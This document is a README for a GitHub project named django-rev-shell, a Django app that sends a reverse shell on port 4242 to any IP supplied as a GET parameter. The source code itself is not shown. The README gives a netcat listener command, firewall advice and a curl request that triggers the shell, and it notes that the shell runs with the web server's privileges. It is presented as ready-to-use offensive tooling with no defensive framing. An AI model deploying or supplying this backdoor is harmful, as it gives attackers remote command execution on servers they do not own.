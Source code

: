 # django-rev-shell

A simple Django app that returns a reverse shell to the IP that is passed as a GET parameter to index.

The TCP port the application tries to send the reverse shell is 4242 (hardcoded). Please update the code as required. A `netcat` listener on the receiving system can be started as `nc -nlvp 4242`. Make sure firewall rules allow ingress on this port (on AWS security groups for example).

Making an HTTP request to the Django app with the ip of the receiver sent as a parameter as shown below, will return a reverse shell. The shell runs with the same privileges as the web app server.

## Usage

```
python3 index.py runserver
curl http://<server-where-app-is-deployed>/?ip=<ip-where-nc-is-listening>
```
